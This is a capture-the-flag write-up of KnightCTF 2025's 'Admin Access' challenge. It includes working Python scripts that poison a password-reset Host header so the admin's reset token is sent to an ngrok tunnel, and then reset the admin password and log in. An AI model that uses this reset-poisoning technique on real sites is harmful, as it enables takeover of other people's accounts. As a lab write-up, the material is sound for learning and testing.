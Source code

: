 # Admin Access

<!--more-->
### Initial Analysis

The site appeared as follows, with a login screen:

![Site Presentation](/images/KnightCTF-2025/Admin-Access/site_presentation.png "Site Presentation")

After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:

![Admin Email](/images/KnightCTF-2025/Admin-Access/admin_email.png "Admin Email")

the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:

![Forgot Password](/images/KnightCTF-2025/Admin-Access/forgot_password.png "Forgot Password")

Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

### Exploit

So i started ngrok on port 80:

```bash
ngrok http 80
```

And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:

![Intercept](/images/KnightCTF-2025/Admin-Access/intercept.png "Intercept")

After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025 
password: new_password
```

![Manual Flag](/images/KnightCTF-2025/Admin-Access/manual_flag.png "Manual Flag")

### Automated Exploit

I also created a fully automated exploit that performs the entire process described earlier:

```bash
ngrok http 8080
(set the ngrok url in the request.py file)
python exploit.py
python request.py
```
this is `exploit.py`: 

```python 
import http.server
import socketserver
import requests
import re
from urllib.parse import urlparse, parse_qs

class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):

        # Extract the token parameter from the request
        token = parse_qs(urlparse(self.path).query).get('token', [None])[0]
        self.send_request(token)

    def send_request(self, token):

        s = requests.Session()
        url = "http://45.56.68.122:7474/"

        password = "supermario45"
        data ={
            "token":token,
            "new_password":password
        }
        # Request for the password reset of the admin account
        s.post(url+"reset-password", data=data).text

        credentials={
            "username":"kctf2025",
            "password":password
        }
        # Request login admin account with Flag extraction via Regex
        print("\nFLAG: " + re.search(r'KCTF{[^}]+}', s.post(url, data=credentials).text).group(0))

def start_server():
    PORT = 8080
    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        httpd.serve_forever()

if __name__ == "__main__":
    start_server()
```

and this is `request.py`:

```python
import requests

requests.post("http://45.56.68.122:7474/forgot-password", data={"email":"kctf2025@knightctf.com"}, headers={"Host":"6cde-93-70-84-224.ngrok-free.app"})
```

### Flag
```
KCTF{PaSsW0rD_ReSet_p0is0n1ng_iS_FuN}
```

